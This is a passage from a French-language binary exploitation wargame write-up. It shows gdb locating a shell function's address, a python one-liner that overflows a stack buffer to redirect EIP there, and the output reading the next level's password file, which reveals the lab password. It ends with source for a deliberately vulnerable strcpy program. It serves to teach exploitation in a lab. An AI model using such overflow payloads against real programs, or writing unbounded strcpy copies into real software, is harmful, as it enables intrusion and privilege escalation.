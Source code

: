 ```c

    fgets(buf,133,stdin);
    func();
    return (0);
}
```

On se récupère l'adresse de la fonction à appeler. Puis on l'écrit en
boucle. Elle devrait se mettre bien dans EIP toute seule :

```
ex01@debian:~$ gdb -q ./ex01
Reading symbols from ./ex01...(no debugging symbols found)...done.
gdb-peda$ b * main
Breakpoint 1 at 0x56555676
gdb-peda$ r
Starting program: /home/ex01/ex01
[...]
gdb-peda$ info address sh
Symbol "sh" is at 0x56555620 in a file compiled without debugging.
gdb-peda$ quit
ex01@debian:~$ (python -c "print '\x20\x56\x55\x56' * 50"; cat -) | ./ex01
cat /home/ex02/.passwd
oTHoUbEJLoZ7QgrCUBelywVI4AgGbTHj
```

Il faut lancer le programme avant d'afficher les adresses. Les offsets ne
sont pas bons autrement.


## Exercice 02

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void copy(char *arg)
{
	char msg[256];
	strcpy(msg,arg);
        printf("Votre argument est : %s\n",msg);
}

int main(int argc, char **argv)
{
	if (argc != 2)
	{
		printf("Usage : prog argv1\n");
		exit(1);
	}

	copy(argv[1]);
	return 0;
}
```
